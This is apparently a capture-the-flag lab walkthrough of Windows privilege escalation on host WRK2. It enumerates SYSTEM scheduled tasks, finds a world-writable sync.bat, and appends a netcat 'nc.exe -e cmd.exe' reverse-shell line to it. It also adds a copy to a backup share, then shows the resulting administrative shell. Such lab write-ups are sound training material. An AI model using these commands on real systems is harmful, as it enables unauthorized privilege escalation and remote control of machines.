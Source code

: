 ## Connect to WRK2
- [[Connect to WRK2 via RDP]]
- Open a command shell.
- Look at the "C:\Users\laura.wood\Downloads>" directory.
- There's a nc.exe file. (Netcat)
	- If we manage to find some service or application that is running in the machine with administrator or system privileges, we might be able to execute netcat with administrative privileges, gaining an elevated administrative shell.
	- One quick way of escalating privileges inside a machine is through a misconfigured scheduled task, especially when it is using a binary or batch file that we can modify.

## List of tasks
- By using the command schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”,we are able to forward a list of several tasks, to a CSV file, that run with administrative privileges (the /fo csv will print the text in a CSV format).
```
schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”
```

> Based on the output, most of the tasks run from the Windows directory, which normally means that those tasks are well configured. A quick search into the CSV reveals that a certain task runs from the following file (**C:\SYNC\sync.bat**):


C:\Users\laura.wood\Downloads> schtasks /query /fo csv /v | findstr "SYSTEM > tasks.csv"
"WRK2","\FULLSYNC","3/14/2024 6:59:36 PM","Ready","Interactive/Background","3/14/2024 6:54:36 PM","1","CORP\Administrator","**C:\SYNC\sync.bat** ","N/A","N/A","Enabled","Disabled","Stop On Battery Mode, No Start On Batteries","SYSTEM","Disabled","72:00:00","Scheduling data is not available in this format.","One Time Only, Minute ","12:19:36 PM","4/2/2023","N/A","N/A","N/A","0 Hour(s), 5 Minute(s)","None","Disabled","Disabled"

## Query for the taskname
Query for the taskname, in order to get more information regarding the schedule task:
```
schtasks /query /fo list /tn FULLSYNC /v
```
Folder: \
HostName:                             WRK2
TaskName:                             \FULLSYNC
Next Run Time:                       3/14/2024 7:19:36 PM
Status:                                    Ready
Logon Mode:                          Interactive/Background
Last Run Time:                       3/14/2024 7:14:36 PM
Last Result:                            1
Author:                                   CORP\Administrator
Task To Run:                          C:\SYNC\sync.bat
Start In:                                  N/A
Comment:                              N/A
Scheduled Task State:         Enabled
Idle Time:                              Disabled
Power Management:            Stop On Battery Mode, No Start On Batteries
Run As User:                         SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                    One Time Only, Minute
Start Time:                           12:19:36 PM
Start Date:                           4/2/2023
End Date:                             N/A
Days:                                    N/A
Months:                               N/A
Repeat: Every:                     0 Hour(s), 5 Minute(s)
Repeat: Until: Time:            None
Repeat: Until: Duration:      Disabled
Repeat: Stop If Still Running:        Disabled

> FULLSYNC scheduled task runs every 5 minutes.

## Check the permissions of the file "C:\SYNC\sync.bat"
```
icacls C:\SYNC\sync.bat
```
Everyone:(F)
BUILTIN\Users:(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(RX)


> - Full access on the sync.bat file.

## Set up a listener with the previously found netcat

With this information, we know that we can set up a listener with the previously found netcat executable, and edit the task to connect with the same executable with administrative privileges, receiving an elevated reverse shell:
```
nc -lnvp 4444
```
listening on [any] 4444 ...

## Edit the sync.bat file

Path: C:\SYNC

Add the following code:
`C:\Users\laura.wood\Downloads\nc.exe -e cmd.exe 127.0.0.1 4444`
`copy C:\Windows\Temp \\s3.corp.thereserve.loc\backups\`

> After a couple of minutes (5 at most) you should receive an administrative reverse shell.
## Execute the task to force a reverse shell
If you want to execute the task inmediately, run the following command.
`
```
schtasks /run /tn FULLSYNC
```

SUCCESS: Attempted to run the scheduled task "FULLSYNC". 

On the first command shell you'll see the following output.

listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54255
Microsoft Windows [Version 10.0.17763.4252]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

[[Flag-4 Administrative access to Corporate Division Tier 2 Infrastructure]]


